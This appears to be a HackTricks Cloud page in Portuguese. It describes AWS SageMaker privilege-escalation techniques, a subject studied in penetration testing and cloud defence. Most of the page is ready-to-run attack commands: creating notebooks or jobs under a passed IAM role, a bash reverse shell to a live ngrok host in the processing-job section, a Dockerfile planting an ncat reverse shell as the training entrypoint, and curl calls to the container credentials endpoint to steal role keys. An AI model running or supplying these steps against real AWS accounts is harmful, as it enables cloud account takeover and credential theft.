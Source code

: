 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comece a criar um notebook com a função IAM para acessar anexada a ele:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
A resposta deve conter um campo `NotebookInstanceArn`, que conterá o ARN da nova instância de notebook criada. Podemos então usar a API `create-presigned-notebook-instance-url` para gerar uma URL que podemos usar para acessar a instância de notebook assim que estiver pronta:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navegue até a URL com o navegador e clique em \`Open JupyterLab\` no canto superior direito, em seguida, role para baixo até a aba “Launcher” e, na seção “Other”, clique no botão “Terminal”.

Agora é possível acessar as credenciais de metadados da IAM Role.

**Impacto Potencial:** Privesc para o papel de serviço sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Se houver **notebooks Jupyter já em execução** nele e você puder listá-los com `sagemaker:ListNotebookInstances` (ou descobri-los de qualquer outra forma). Você pode **gerar uma URL para eles, acessá-los e roubar as credenciais conforme indicado na técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Privesc para o papel de serviço sagemaker anexado.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Um atacante com essas permissões pode fazer **sagemaker executar um processingjob** com um papel sagemaker anexado a ele. O atacante pode indicar a definição do contêiner que será executado em uma **instância de conta ECS gerenciada pela AWS**, e **roubar as credenciais do papel IAM anexado**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc para o papel de serviço sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Um atacante com essas permissões será capaz de criar um trabalho de treinamento, **executando um contêiner arbitrário** nele com um **papel anexado** a ele. Portanto, o ataque será capaz de roubar as credenciais do papel.

{% hint style="warning" %}
Este cenário é mais difícil de explorar do que o anterior porque você precisa gerar uma imagem Docker que enviará o rev shell ou credenciais diretamente para o atacante (você não pode indicar um comando inicial na configuração do trabalho de treinamento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc para o papel de serviço sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Um atacante com essas permissões poderá (potencialmente) criar um **trabalho de treinamento de hiperparâmetros**, **executando um contêiner arbitrário** nele com um **papel anexado**.\
_Eu não explorei devido à falta de tempo, mas parece semelhante às explorações anteriores, sinta-se à vontade para enviar um PR com os detalhes da exploração._

## Referências

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
